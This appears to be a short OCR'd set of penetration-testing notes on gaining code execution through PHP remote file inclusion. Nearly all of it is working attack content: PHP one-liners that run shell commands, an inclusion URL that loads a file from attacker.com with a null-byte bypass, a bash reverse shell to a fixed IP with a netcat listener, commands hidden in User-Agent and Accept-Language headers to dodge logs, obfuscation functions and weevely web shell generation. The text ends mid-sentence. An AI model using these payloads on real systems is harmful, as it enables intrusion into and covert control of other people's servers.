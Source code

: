 # preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>
So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. And we have an RCE.

http://192.168.1.103/index.php?page=http://attacker.com/file.txt/php%00cmd=pwd &cmd=/bin/bash –
i >& /dev/tcp/10.11.0.37/53 0>&1

The second Side listen with

nc -lvp 53

Avoid extensions
Remember to add the null byte %00 to avoid appending .php. This will only work on PHP before version 5.3.

If it does not work you can also add a ?, this way the rest will be interpreted as URL parameters

You can then call then execute the commands like this:

http://192.168.1.103/index.php?cmd=pwd
Make it stealthy
We can make the commands from above a bit more stealthy. Instead of passing the cards through the URL, which will be obvious in logs, we can pass them through other header-parameters. The use of tamper data or burp suite to insert the commands. Or just Netcat or curl.

<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
<?php system($_SERVER['HTTP_USER_AGENT'])?>

# I have had to use this one
<?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
Obfuscation
The following functions can be used to obfuscate the code.

eval()
assert()
base64()
gzdeflate()
str_rot13()
Weevely – Incredible tool!
Using weevely we can create PHP web shells easily.

weevely generate password /root/webshell.php
Not we execute it and get a shell in return:
